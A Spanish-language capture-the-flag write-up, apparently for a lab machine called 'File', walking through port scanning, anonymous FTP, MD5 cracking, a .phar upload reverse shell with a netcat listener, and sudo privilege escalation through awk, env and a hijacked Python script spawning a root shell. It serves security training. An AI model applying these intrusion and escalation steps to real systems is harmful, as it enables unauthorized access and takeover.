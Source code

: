 ```yaml
---
description: >-
  ✍️ Autor: Scuffito y Jul3n-dot🔍 Dificultad: Fácil 📅 Fecha de creación:
  29/11/2024
---
```


# File

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como vemos que tenemos un archivo y que tenemos acceso de manera anónima con FTP lo aprovechamos por si contiene algo relevante.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido y parece ser una cadena correspondiente a un hash por lo que la decodificamos.

```bash
echo "53dd9c6005f3cdfc5a69c5c07388016d" > hash
john --format=raw-md5 hash
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si ingresamos la IP nos sale la página por defecto de Apache.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Hay un archivo y un directorio que nos da pistas que se puede hacer una Reverse Shell. Hay que usar un archivo con extensión `.phar`.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Obtenemos la contraseña de fernando con esta herramienta de nuestro Mario. Nos logueamos.

{% @github-files/github-code-block url="https://github.com/Maalfer/Sudo_BruteForce" %}

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos estaganografía.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al ser un hash lo crackeamos con esta página [CrackStation](https://crackstation.net/).

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es la contraseña de mario por lo que nos logueamos. Tiene permisos SUDO con julen [awk](https://gtfobins.github.io/gtfobins/awk/#sudo).

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora tenemos permisos SUDO con [env ](https://gtfobins.github.io/gtfobins/env/#sudo)con el usario iker.

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora tenemos permisos SUDO para ejecutar con python un archivo.

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo borramos y creamos con el mismo nombre pero con distinto contenido.

```bash
import os
os.system("/bin/bash")
```

Lo ejecutamos.

```bash
sudo /usr/bin/python3 /home/iker/geo_ip.py
```

<figure><img src="../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>
